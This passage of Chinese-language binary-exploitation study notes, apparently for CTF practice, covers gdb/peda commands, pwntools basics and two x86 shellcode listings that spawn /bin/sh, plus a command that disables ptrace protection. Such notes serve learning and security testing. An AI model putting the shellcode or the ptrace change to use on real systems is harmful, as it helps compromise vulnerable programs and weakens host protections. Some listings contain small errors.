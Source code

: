 			set {int}0x8048a060 = 1337
			set $eax = $edx(寄存器间)
	            list--列出源代码
	            print val--打印变量值
	            info local--显示局部变量
	            attach pid--附近加一个正在运行的程序
	            可以配合ncat或socat进行exploit的调试
		ncat -ve ./a.out -kl 8888
		echo 0 > /proc/sys/kernel/yama/ptrace_scope
		elfsymbol--查看function的plt，做ROP时特别有用
		vmmap--查看process mapping信息，可以看到每个address的权限
		readelf--查看section位置
		find(alias searchmem)--在内存中查找信息，通常用来搜索字符串（例如：/bin/sh）
		```
3. Qira
	```
	usage: qira -s ./filename
	```
4. Pwntools
	```
	Basic structure :
	from pwn import *
	r = remote('127.0.0.1',4000)  //地址可变，也可以直接是程序名
	r.sendline(...)               //传入程序的内容，若传入地址，需写成如：p32(0x111)格式
	r.interactive()
	```
---

# Shellcode
**·System Call**
   通过汇编程序来执行系统的命令
   EAX: system call number/ return value
   EBX,ECX,EDX,ESI,EDI: argument 
   Instruction: int 0x80
   System Call查看网址（Linux）：http://syscalls.kernelgork.com/
   Example: execve("/bin/sh",NULL,NULL)
    ```avrasm
    x86 Assembly
    //该程序实现了execve("/bin/sh",NULL,NULL)//
    push 0x0068732f
    push 0x6e69622f
    mov ebx,esp
    mov eax 0xb
    mov ecx 0x0     //xor ecx,ecx
    mov edx,0x0     //xor edx,edx
    int 0x80
    //但该程序不是常用的写法，只做试例//
    ```

	```avrasm
   	//下面是一个常见的写法//
    jmp sh
    run:
      pop ebx
      mov BYTE [ebx+7],0 //将内存中“/bin/sh”后面一个内存单元设置为0，作为作为该字符串的结束标志
      xor eax,eax
      mov al,11
      xor ecx,ecx
      xor edx,edx
      int 0x80
    sh:
      call run
      db "/bin/sh"